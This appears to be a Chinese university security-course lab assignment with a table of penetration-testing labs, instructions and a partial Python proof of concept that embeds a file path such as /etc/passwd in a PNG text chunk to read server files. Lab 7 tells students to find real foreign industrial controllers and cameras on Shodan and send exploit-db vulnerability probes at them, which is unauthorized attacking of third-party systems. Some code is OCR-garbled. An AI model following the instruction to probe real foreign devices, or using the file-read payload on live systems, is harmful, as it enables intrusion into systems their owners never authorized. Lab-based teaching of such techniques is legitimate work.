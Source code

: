 

| 6 | 渗透测试实操实验                   | 1.一次完整的渗透测试体验2.渗透测试-Metasploit进行漏洞利用3.渗透测试-网络扫描4.渗透测试-Tomcat目录穿越5.渗透测试-Joomla cms反序列化远程代码执行6渗透测试-拒绝服务攻击7.渗透测试-JBoss反序列化漏洞检测 | 0.5周 | 实验室 |
| - | ---------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----- | ------ |
| 7 | 网络设备扫描工具设计与开发         | 设计并开发工具，完成对指定的联网工控或物联网（如西门子PLC、摄像头）设备的识别，基于此了解漏洞扫描的原理                                                                                              | 1.5周 | 实验室 |
| 8 | 简单模糊测试漏洞挖掘工具设计与开发 | 学习模糊测试漏洞挖掘的原理和方法，采用随机变异/生成的方法构造测试用例，并实现对指定软件的持续发包测试。                                                                                              | 1.5周 | 实验室 |

1）实验6具体要求和步骤

（1）搭建具备漏洞虚拟机环境（可采用之前课程构建的环境，漏洞不限于上表中的要求）

（2）完成一次完整的渗透测试，包括网络扫描（存活性探测、操作系统探测、服务探测、漏洞验证、漏洞利用，工具可采用nmap、metasploit等，不限）

2）实验7具体要求和步骤

参考nmap实现原理，完成以下实验内容：

（1）登录shodon https://www.shodan.io/，查找国外资产（注意**一定找国外资产**，建议优先选择工控设备、摄像头等）的IP作为被探测目标对象。被测资产可以是单个资产也可以是资产列表。

（2）采用多线程/进程方式（建议，如有困难可以单进程单线程）实现任务调度，通过多线程或子进程进行目标存活性探测、端口开放探测、资产版本探测以及构造漏洞测试用例（测试用例即为具体要发送的探测数据包，可以从网络查询获取任一漏洞的探测报文，可参考exploitdb中的漏洞POC），测试漏洞是否存在。


# Description

环境说明：

服务器

```shell

NAME="CentOS Linux"

VERSION="7 (Core)"

ID="centos"

ID_LIKE="rhel fedora"

VERSION_ID="7"

PRETTY_NAME="CentOS Linux 7 (Core)"

ANSI_COLOR="0;31"

CPE_NAME="cpe:/o:centos:centos:7"

HOME_URL="https://www.centos.org/"

BUG_REPORT_URL="https://bugs.centos.org/"


CENTOS_MANTISBT_PROJECT="CentOS-7"

CENTOS_MANTISBT_PROJECT_VERSION="7"

REDHAT_SUPPORT_PRODUCT="centos"

REDHAT_SUPPORT_PRODUCT_VERSION="7"

```

docker 环境说明

```shell

Dockerversion23.0.0,builde92dd87

```

## steps

依据docker环境进行操作

```shell

# 后台创建并运行docker容器

docker-composeup-d

```

使用漏洞扫描工具进行扫描

AWVS

编写脚本将文本文件转换为图片

```python

withopen(to_filename, 'wb') as f:

    f.write(png.signature)

    if from_filename:

        p = png.Reader(filename=from_filename)

        for k, v in p.chunks():

            if k != b'IEND':

                png.write_chunk(f, k, v)

    else:

        png.write_chunk(f, b'IHDR', IHDR)

        png.write_chunk(f, b'IDAT', IDAT)


    png.write_chunk(f, b"tEXt", b"profile\x00" + read_filename.encode())

    png.write_chunk(f, b'IEND', b'')

```

将指定路径下的文本生成图片

```shell
./poc.py generate -o poc.png -r /etc/passwd
```

将该图片上传进行提交，并将生成的新文件进行解析

```shell
./poc.py parse- i out.png
```
